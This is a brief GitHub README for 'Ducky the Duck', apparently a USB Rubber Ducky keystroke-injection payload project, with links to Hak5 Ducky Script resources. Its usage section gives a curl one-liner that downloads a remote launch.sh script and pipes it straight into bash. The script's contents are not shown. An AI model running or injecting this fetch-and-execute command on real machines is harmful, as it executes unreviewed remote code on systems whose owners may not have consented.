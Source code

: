 # Ducky the Duck

## Usage

- Rubber ducky

[Payload](https://raw.githubusercontent.com/Saverio976/ducky-the-duck/main/launch.txt) (generated from launch.sh)

- Bash

```bash
# curl -sLf 'https://raw.githubusercontent.com/Saverio976/ducky-the-duck/main/launch.sh' | "$(readlink /proc/$$/exe)"
curl -sLf 'https://raw.githubusercontent.com/Saverio976/ducky-the-duck/main/launch.sh' | bash
```

## Resources

- https://docs.hak5.org/hak5-usb-rubber-ducky/ducky-script-basics/hello-world

- https://github.com/hak5/usbrubberducky-payloads
